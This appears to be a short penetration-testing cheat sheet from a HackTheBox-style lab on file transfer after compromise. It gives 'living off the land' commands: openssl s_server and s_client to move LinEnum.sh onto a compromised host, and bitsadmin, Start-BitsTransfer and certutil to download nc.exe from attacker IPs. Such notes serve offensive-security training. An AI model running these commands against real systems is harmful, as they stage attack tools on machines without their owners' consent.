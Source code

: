 - `tail -1 /var/www/uploads/SecretUploadDirectory/users.txt `

# Living off The Land
## Create Certificate in our Pwnbox
- `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem`

## Stand up the Server in our Pwnbox
- `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh`

## Download File from the Compromised Machine
- `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh`

## Other Common Living off the Land tools
### File Download with Bitsadmin
- `bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe`

### Download
- `Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"`

### Certutil
#### Download a File with Certutil
- `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
